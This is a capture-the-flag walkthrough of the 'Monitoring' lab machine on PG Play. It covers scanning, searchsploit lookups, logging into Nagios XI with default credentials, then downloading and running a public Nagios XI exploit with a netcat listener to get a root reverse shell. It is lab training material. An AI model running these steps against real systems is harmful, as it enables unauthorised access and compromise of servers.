 # Monitoring --- PG Play
## [_Manual Exploitation_]
### Enumeration
First I assigned a value to `targ3t` variable in bash and passed it the IP address of the machine to make it easier to operate:
```
targ3t=192.168.247.148
```
Then I did an aggressive scan on the target using `nmap`:
```
nmap -A $targ3t -oN nmap.scan -vv
```
### Port 80
I got curious about port `80` where we have a site `Nagios XI` and a button indicating access to Nagios XI. Once we press it, a login form opens up. So I decided to put it through `dirsearch` and `feroxbuster` scans simultaneously like so:
```
dirsearch -u http://$targ3t -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
feroxbuster -u http://$targ3t -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -o ferox.scan
```
Both yielded interesting results, but more so `feroxbuster` as we have a couple of paths with status code `200`. Upon checking them it doesn't seem to me like they give away any vital information. I went back to the nmap scan results and it shows an ldap port open also, which is running OpenLDAP 2.2.x - 2.3.X. Let's try and see if there are any exploits for it:

### LDAP
```
searchsploit OpenLDAP
```
Looks like all of these are DoS exploits, which we don't need. Let's see if searchsploit has anything for Postfix smtp:

### SMTP
```
searchsploit Postfix
```
There is a number of results, but I like the one that is a python script better:
```
cp $(locate 34896.py) .
```
Let's see how it works:
```
head 34896.py
```
Apparently we just need to indicate a target and an SMTP command:
```
python2 34896.py $targ3t "NOOP"
```
After trying this and other commands, I couldn't get any results whatsoever, so I decided to temporarily go back to the web interface on this machine. I searched Nagios XI in searchsploit and received a number of results for different versions:

### Back to Port 80
```
searchsploit Nagios XI
```
So I became interested if I can get a version on it on port 80 anywhere. Like before, no page has any information about the version of this framework. So I went ahead and used the first python exploit in the results:
```
cp $(locate 44560.py) .
python2 44560.py
```
The usage seems to be dependent on the listener. Let's launch a netcat listener first:
```
nc -lvnp 2298
```
Now let's run the exploit on the target:
```
python2 44560.py -r $targ3t -l 192.168.45.228 -p 2298
```
Seems like the code is broken. After looking into it I saw that it isn't detrimental to the way exploit operates, so I commented it and references to it out. After that the exploit received a 404 Response. So, moving on.

I searched around for Nagios XI docs and found that a default admin username/password pair is nagiosadmin:admin. Filled it in in our login page and it worked. After logging in, we can clearly see that the version of this Nagios XI is `5.6.0`. Let's search the web to exploit it. I quickly found [this exploit](https://github.com/hadrian3689/nagiosxi_5.6.6) on github, let's try it:

### Exploitation
```
wget https://raw.githubusercontent.com/hadrian3689/nagiosxi_5.6.6/refs/heads/main/exploit.py
chmod 777 exploit.py
```
Let's see how it works:
```
python exploit.py -h
```
Let's try it:
```
python3 exploit.py -t http://$targ3t -b /nagiosxi/ -u nagiosadmin -p admin -lh 192.168.45.228 -lp 2298
```
And we have a root shell! Let's grab a flag:
```
cat /root/proof.txt
```
Nice!

## [_Metasploit Exploitation_]
